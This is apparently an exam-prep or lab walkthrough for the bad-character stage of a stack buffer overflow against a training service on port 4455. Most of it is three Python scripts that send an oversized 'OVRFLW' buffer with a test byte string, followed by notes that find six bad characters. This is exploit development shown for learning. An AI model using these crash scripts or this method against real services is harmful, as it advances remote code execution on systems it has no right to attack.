4 & 5. Bad characters: \x00,\x04,\x76,\x77,\x99,\xf3

4. Bad characters

Add all characters (except known bad character \x00) to just after the eip

Here is the code



```python
kali@kali:~/gitWorkspace/exam/bf$ cat 4_bad_chars_original.py 
#!/usr/bin/python

import sys, socket

if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()

badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )


cmd = "OVRFLW "
filler  = "\x41" * 1493
eip     = "\x42" * 4
bf      = "\x43" * (3000 - len(filler) - len(eip) - len(badchars))
end = "\r\n"

buffer = cmd + filler + eip + badchars + bf + end

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], 4455))
s.send(buffer)
s.recv(1024)
s.close()
```

Run the code



It crashes with EIP 42424242. It seems that \x04 is a bad character because we see that after 03 comes 0b



Remove \x04. Here is the code



Run the exploit.



It crashes at 42424242.


We see that 0x76 is the next bad char.



Here is the code



```python
kali@kali:~/gitWorkspace/exam/bf$ cat 5_bad_chars_only.py 
#!/usr/bin/python

import sys, socket

if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()

# Took away x00,\x04,\x76,
badchars = (
"\x01\x02\x03\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )


cmd = "OVRFLW "
filler  = "\x41" * 1493
eip     = "\x42" * 4
bf      = "\x43" * (3000 - len(filler) - len(eip) - len(badchars))
end = "\r\n"

buffer = cmd + filler + eip + badchars + bf + end

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], 4455))
s.send(buffer)
s.recv(1024)
s.close()
```


Run the exploit


It crashes at 42424242


We see that \x77 should be the next bad char


Remove \x77 from the exploit and run again.


We see the \x99 is the next bad character


Remove \x99 from the exploit and run again. We see it crashes at 42424242


We see \xf3 is the next bad character.


Remove \xf3 and run the expllit again. It crasehs at 42424242


There are no more bad characters



The bad characters in this exploit are:
\x00,\x04,\x76,\x77,\x99,\xf3

Here is the final script that does not contain bad characters:




```python
kali@kali:~/gitWorkspace/exam/bf$ cat 5_bad_chars_only.py 
#!/usr/bin/python

import sys, socket

if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()

# \x00,\x04,\x76,\x77,\x99,\xf3
badchars = (
"\x01\x02\x03\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )


cmd = "OVRFLW "
filler  = "\x41" * 1493
eip     = "\x42" * 4
bf      = "\x43" * (3000 - len(filler) - len(eip) - len(badchars))
end = "\r\n"

buffer = cmd + filler + eip + badchars + bf + end

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], 4455))
s.send(buffer)
s.recv(1024)
s.close()
```


